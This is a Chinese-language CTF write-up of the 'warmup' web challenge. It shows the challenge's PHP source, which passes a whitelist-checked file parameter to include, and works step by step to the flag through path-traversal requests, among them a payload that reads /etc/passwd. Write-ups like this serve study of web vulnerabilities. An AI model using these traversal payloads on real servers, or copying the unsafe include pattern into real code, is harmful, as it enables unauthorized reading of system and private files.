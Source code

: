 ```yaml
---
layout: post
title: Web进阶题-warmup
excerpt: "攻防世界进阶Web题目-warmup"
date:   2020-10-15 22:09:00
categories: [CTF]
comments: true
---
```


## 我的解题过程

1. 访问网站，网站页面只有一个大大的"滑稽"，同时网页源码中有一行注释"source.php"

2. 访问"source.php"，网页返回内容如下

   ```php
   <?php
       highlight_file(__FILE__);
       class emmm
       {
           public static function checkFile(&$page)
           {
               $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
               if (! isset($page) || !is_string($page)) {
                   echo "you can't see it";
                   return false;
               }
   
               if (in_array($page, $whitelist)) {
                   return true;
               }
   
               $_page = mb_substr(
                   $page,
                   0,
                   mb_strpos($page . '?', '?')
               );
               if (in_array($_page, $whitelist)) {
                   return true;
               }
   
               $_page = urldecode($page);
               $_page = mb_substr(
                   $_page,
                   0,
                   mb_strpos($_page . '?', '?')
               );
               if (in_array($_page, $whitelist)) {
                   return true;
               }
               echo "you can't see it";
               return false;
           }
       }
   
       if (! empty($_REQUEST['file'])&& is_string($_REQUEST['file'])&& emmm::checkFile($_REQUEST['file'])) {
           include $_REQUEST['file'];
           exit;
       } else {
           echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
       }  
   ?>
   ```

   * 以PHP语法高亮当前文档，由于后面有include函数，所以本题应该是通过*highlight_file()*把flag打印出来
   * 声明了一个emmm的类，类中有一个静态方法checkFile
     * $page未被指定或page不是字符串时，失败
     * 当$page在白名单内，成功
     * 通过mb_substr()将$page提取从头开始到第一个？的字符子串为$_page，三个参数分别为str、start、length，字符串索引号从0开始，当$page在白名单内，成功
     * 先url解码，再通过mb_substr()将$page提取从头开始到第一个？的字符子串为$_page，三个参数分别为str、start、length，字符串索引号从0开始，当$page在白名单内，成功
   * 网页当file被设置、file是字符串、checkFile通过的时候，会加载file中的内容到source.php中当作代码

3. 发现source.php中的白名单有提到hint.php

   * 访问hint.php

     ```html
        flag not here, and flag in ffffllllaaaagggg
     ```

   * 访问source.php?file=hint.php，返回内容仍不变

   * 所以本题最终访问的文件应该在ffffllllaaaagggg，而不在hint.php中

4. 通过检索发现in_array()在不设置第三个参数时，是不强制对数据类型检测的

5. 因为最后读取的file参数，我们只需checkFile()返回true，所以我们需要使其中一个in_array()返回真

6. checkFile方法进行判断时会对*？*进行截断，也就是说？后边的内容会被特殊处理

   * 我们include的参数可能是网址加上get参数，这样可以正常返回，然后include，尝试失败。因为如果include参数带上get参数的话，前面必须有域名和端口，而本题起始几个字符必须是source.php、hint.php，所以这种可能是没有的

   * 使用Burp Suite的Intruder模块，对*/source.php?file=source.php?$x$*，采用Fuzz Payload进行测试，发现Payload为*../../../../../../../../../../etc/passwd*时，网页返回了passwd的文件内容，所以可能*?*后面被单独作为了文件名处理
   * 访问*/source.php?file=source.php?./source.php*，返回为空
   * 访问*/source.php?file=source.php?../source.php*，返回内容为空，由于Burp Suite的Payload有很多../，进一步加../
   * 访问*/source.php?file=source.php?../../source.php*，顺利读取到source.php的内容
   * 访问*/source.php?file=source.php?../../ffffllllaaaagggg*，返回内容为空
   * 访问*/source.php?file=source.php?../../ffffllllaaaagggg*，返回内容为空
   * 继续加../，直到
   * 访问*/source.php?file=source.php?../../../../../ffffllllaaaagggg*，返回内容为"flag{25e7bce6005c4e0c983fb97297ac6e5a}"

7. 提交，答案正确

## 独立思考

### 1. 为什么include把*?*后面的内容当作相对路径？

不对，其实是include把/后面的内容当作了路径。


## 产生过的疑问

1. 为什么include把*?*后面的内容当作相对路径？

